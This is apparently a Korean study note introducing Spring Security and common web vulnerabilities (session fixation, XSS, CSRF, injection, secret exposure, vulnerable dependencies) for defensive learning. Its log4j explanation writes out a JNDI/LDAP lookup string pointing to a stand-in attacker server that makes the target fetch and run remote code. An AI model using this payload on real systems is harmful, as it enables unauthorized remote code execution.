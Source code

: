 # Spring Security In Action

## 들어가며

훌륭한 애플리케이션을 개발하기 위해서는 비즈니스 문제를 명확히 해결하는 것뿐만 아니라, 애플리케이션이 원활히 동작하도록 도와주는 비기능적인 부분도 관심과 고려가 있어야 한다고 생각한다.

이런 비기능적인 측면 중 하나인 보안은 대부분의 애플리케이션에서 심도 있게 고려해야 할 부분이다.

스프링을 통해 개발한다면 스프링답게 보안처리를 도와주는 스프링 시큐리티라는 프레임워크가 있다.

이번 기회에 스프링 시큐리티 프레임워크에 대해 좀 더 깊게 알아가면서, 보안에 대해 좀 더 관심을 가지고, 안전한 애플리케이션을 만들 수 있도록 성장하고자 한다.

이번 글에서는 본격적으로 스프링 시큐리티를 알아보기 앞서 대략적인 보안 개념과 일반적으로 무엇으로부터 보호해야 할지에 대해 알아보려 한다.



## 소프트웨어 보안

현대의 소프트웨어는 민감한 정보를 데이터로 관리하기 때문에 애플리케이션은 그 정보가 의도되지 않은 사용자에게 접근되거나 변경 또는 가로채지 않게 처리해야 한다. 이것이 광범위하게 표현한 보안의 의미이다.

개인적으로 보안을 표현하기도 쉽고 개념적으로 가장 중요하다고 생각되는 것은 인증과 인가이다.

인증은 애플리케이션을 사용하려는 주체를 식별하는 프로세스를 뜻하며, 인가는 인증된 주체에게 어떤 기능이나 데이터에 권한이 있는지 체크하는 프로세스이다.

소프트웨어에서 보안은 가장 최상층인 애플리케이션 계층뿐 아니라 가상머신이나 네트워크 같은 하위계층에도 적용되고 신경 써야 한다. 우리가 알아볼 스프링 시큐리티는 애플리케이션 계층에서의 보안이다.\


## 보안의 중요성

실제 개인정보가 유출되는 사례는 대중적으로도 이미 많이 알려져 있다. 보안에 대한 미비한 투자로 직접적인 금전적인 비용 손실, 브랜드의 이미지 실추, 심하게는 인명 피해까지 이어질 수 있다. 때문에 보안은 프로젝트 시작부터 고려해야 할 중요한 사항이다. 보안의 취약성을 예방하는 것이 공격받은 후 대처하는 것보다 비용이 적게 드는 것은 당연하다.

> 사실 보안 처리를 했다고 해도 모든 공격을 막아낼 순 없다. 만일 피해를 받은 상황에 대한 대응도 미리 준비해 피해를 최소화할 수 있는 것이 중요할 것 같다.\
>

## 일반적인 보안 취약성

공격자는 무턱대고 공격하기보단 취약성을 파악하고 집중 공격한다. 때문에 일반적으로 공격자가 어떤 취약성을 이용해 공격하는지 알고 있어야 한다.&#x20;



* 인증, 인가 취약성

의도되지 않은 사용자가 악의를 가지고 다른 사람의 기능이나 민감한 정보에 접근할 수 있다.

* 세션 고정

공격자가 이미 생성된 세션 ID를 재이용해서 유효한 사용자를 가장할 수 있다.

이 취약점은 기존 발급한 세션 ID가 고유하지 않거나 유효시간을 주지 않을 때 발생한다.

> 세션이란 각 클라이언트(브라우저)와의 연결을 구별하기 위해 서버에 상태를 저장하는 기술이다.



* XSS(교차 사이트 스크립팅 Cross Site Scripting)

공격자가 클라이언트 쪽에 악의적인 스크립트를 주입하면 서버가 이를 실행하게 되어 피해를 받을 수 있다.

XSS을 방어하는 방법의 핵심은 서버가 검증되지 않은 html 문자열을 그대로 사용하는 것이라고 생각한다. 서버가 브라우저에게 악의적인 script가 포함되어 있는 문자열을 전달하면 브라우저는 이를 실행하게 되어 문제를 일으킨다.

아래 링크의 문제를 풀면서 어떤 방식으로 공격하는지 이해해 보자.

[XSS game](https://xss-game.appspot.com/level1)



* CSRF(사이트 간 요청 위조)

어떤 유저가 공격할 사이트에 로그인된 상태에서 악성 스크립트가 포함된 페이지에 접속하도록 유도한다. 악성 스크립트는 로그인 정보가 있는 쿠키를 이용해 서버에 요청하기 때문에, 서버는 공격자의 요청을 정상적인 요청으로 인식하고 수행하게 된다.



* Injection

주입 공격은 광범위한 공격으로 앞서 말한 XSS, Xpath 주입, SQL 주입이 있다. SQL주입은 가장 오래되고 잘 알려진 주입 취약성으로 공격자는 다른 SQL 쿼리를 애플리케이션에 주입시키고 실행시키는 공격방법이다.



* 기밀 데이터 노출

가장 기초적이지만 흔한 실수 중 하나다. 중요한 데이터를 실제 소스코드에 입력한다면 코드를 볼 수 있는 모든 사람에게 노출이 되며, 버전관리에서는 변경 기록까지 남게 된다. 민감 데이터를 로그 남기거나 콘솔을 찍는 행위도 이에 해당한다. 에러 메시지 정보에 너무 많은 정보를 전달하는 것도 공격자에게 큰 힌트가 될 수 있으니 주의해야 한다.



* 취약성이 있는 종속성 이용

log4j 사태처럼 라이브러리나 프레임워크 같은 종속성 자체에 취약성이 있을 수 있다.

<details>

<summary>log4j 사태</summary>

Log4j는 자바 기반 로깅 라이브러리이다. java에는 JNDI라는 디렉터리를 통해 데이터를 찾을 수 있는 디렉터리 서비스가 있으며, 인터페이스 중 하나인 LDAP가 있다. 문제는 log4j가 특정 형식으로 로그를 남길 때도 JNDI를 수행할 수 있기 때문에 발생한다.

공격자는 타겟 서버 header에 ${jndi:ldap://attaker-server.com/a}의 문자열을 남기면, 타겟 서버는 로그 출력이 아니라 공격자 서버에 존재하는 자바 클래스 파일을 요청하고 실행하게 된다.

<img src="https://blog.kakaocdn.net/dn/caIrXV/btrWUHpXcS2/3Rw1slOH37ULc82r4gEwJK/img.png" alt="" data-size="original">



</details>

&#x20;

> [OWASP](https://owasp.org/)\
> 애플리케이션 개발 중 가장 일반적인 취약성을 소개하니 참고해 보자.

<figure><img src="https://blog.kakaocdn.net/dn/b4JRLO/btrWYMjJt7a/pev4UHZakksMm0KG7UBaf1/img.png" alt=""><figcaption></figcaption></figure>
